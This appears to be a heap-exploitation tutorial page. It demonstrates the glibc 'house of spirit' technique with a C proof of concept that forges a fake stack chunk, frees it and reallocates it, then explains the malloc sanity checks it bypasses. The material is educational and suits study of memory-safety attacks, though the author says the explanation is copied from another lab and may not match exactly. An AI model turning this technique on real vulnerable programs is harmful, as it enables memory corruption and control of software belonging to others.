

<details>
<summary><strong>Description</strong></summary>
<p>

this is not usually in nowaday since there exist tcaches, but its still good to know...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *ptr, *chunk, y[7];
    char x[0x100];

    for(int i = 0; i < 7; i++) y[i] = malloc(0x70); // init heap prepare tcaches
    for(int i = 0; i < 7; i++) free(y[i]); // fill up tcache

    // just to make sure ptr is aligned 0x10
    for(int i = 0; i < 0x10; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            ptr = &x[i];
            break;
        }
    }

    printf("target ptr: %p\n", ptr);

    // prepare few things
    ptr[-1] = 0x81; // fake chunk size (unsortedbin range) (or bigger than fastbin when tcache is fill) (prev_inuse on to prevent backward consolidation)

    ptr[0x70/8 + 1] = 0x20; // fake next adjacent chunk's size (bypass the fencepost size check (>= 0x20), prev_inuse doesnt matter i guess)    

    // VULNERABILITY
    free(ptr);
    // VULNERABILITY

    chunk = calloc(1, 0x70); // this can be done via malloc but you have to clear the corresponding 0x80 tcache first
    // also you have to prepare foward ptr for fake fastbin chunk, to bypass the tcache dumping process
    // that is harder to set up and since this is just poc, i use calloc to simplize

    printf("chunk: %p\n", chunk);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

> the original epxlain was from heap_lab -> part_2 -> house_of_spirit, too lazy to rewrite it so i just copy it into here, the glibc version and example might be different but the explain is maybe still helpful (maybe)...

### fastbin

There are some conditions, I will describe in order.

> `IS_MMAPPED` flag is off.

For now, we need to know is that when a chunk is allocated via mmap, its `IS_MMAPPED` flag is set. When the `free()` function operates on a chunk with a set `IS_MMAPPED` flag, instead of linking it back into an arena, it will unmap the chunk with GLIBC's `munmap()` function. We want to link the fake chunk into an arena so we can allocate it back later so our fake chunk's size field must have a clear `IS_MMAPPED` flag.

> `NON_MAIN_ARENA` flag is off.

There are two types of arenas, the main arena, which resides in GLIBC's data section and non-main arenas, which can be created by `malloc` in multithreaded applications. Because non-main arenas are created dynamically at runtime, malloc can't resolve them using symbols. Instead, it gives new arenas and their corresponding heaps something called a "heap_info" struct and ensures they're mapped at a specific alignment. `malloc` can then locate non-main arenas by applying an and-mask to a chunk's address to find its corresponding heap_info struct.

To determine which arena a chunk should be linked into, the `free()` function checks its `NON_MAIN_ARENA` flag, which the output of the 'malloc_chunk' command shows is set in our fake chunk. When `free()` comes across a set `NON_MAIN_ARENA` flag, rather than linking the chunk into the main arena, it will instead apply that and-mask to the chunk's address, in effect rounding it down to a much lower value in an attempt to locate that chunk's arena. Of course, our fake chunk doesn't belong to an arena, and therefore, when we try to free it, malloc rounds its address down to an unmapped address and subsequently segfaults.

Under some circumstances, you could use the `NON_MAIN_ARENA` flag to orchestrate mayhem by providing a fake arena, but in our case, it's easier just to clear it.

> Forth-least significant bit.


The check `aligned_OK(size)` macro is there specifically to catch the presence of a set forth-least significant bit in a chunk's size field. So again, we clearing the whole least-significant nybble with the exception of the `prev_inuse` flag (etc `0x61`...).

> Adjacent chunk size.



It's one of malloc's size sanity checks, but instead of operating on the chunk being freed, it's testing the adjacent chunk. If that chunk is smaller than a fencepost chunk or larger than `av->system_mem`, the mitigation is triggered. So we have to prepare a satify chunk size there (fengshui). Also one thing to note, you can keep the `prev_inuse` flag set at this point, but you don't have to, since this chunk will be treated as a fast chunk the `prev_inuse` flag is ignored.

Done, now we are able to free that fake chunk, it will go to fastbin and ready to re-allocate:


</p>
</details>
